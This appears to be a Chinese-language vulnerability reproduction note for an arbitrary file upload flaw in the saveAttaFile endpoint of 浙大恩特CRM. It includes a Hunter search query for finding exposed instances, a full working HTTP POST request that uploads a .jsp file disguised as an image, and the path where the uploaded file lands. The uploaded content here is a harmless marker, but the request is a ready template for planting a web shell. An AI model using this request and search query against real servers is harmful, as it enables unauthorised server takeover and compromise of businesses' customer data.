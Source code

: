# 浙大恩特CRM saveAttaFile任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM saveAttaFile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/oovIHLC9eb_VVrHx/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-785075.png)

# 四、漏洞复现
```plain
POST /entsoft/MailAction.entphone;.js?act=saveAttaFile HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 179

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="stc.jsp"
Content-Type: image/jpeg

stc
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

![1700315054770-73ab7304-cc2e-4a4a-9440-9b8d3e075afe.png](./img/oovIHLC9eb_VVrHx/1700315054770-73ab7304-cc2e-4a4a-9440-9b8d3e075afe-202530.png)

根据响应获取上传文件位置

```plain
/enterdoc/EnterMail/20231118/2023111821425069561254581/stc.jsp
```

![1700315092549-a07f0b64-c27f-4a23-8e23-a5e4f23e6e8e.png](./img/oovIHLC9eb_VVrHx/1700315092549-a07f0b64-c27f-4a23-8e23-a5e4f23e6e8e-514982.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/eh97kwtudqbrgx9n>
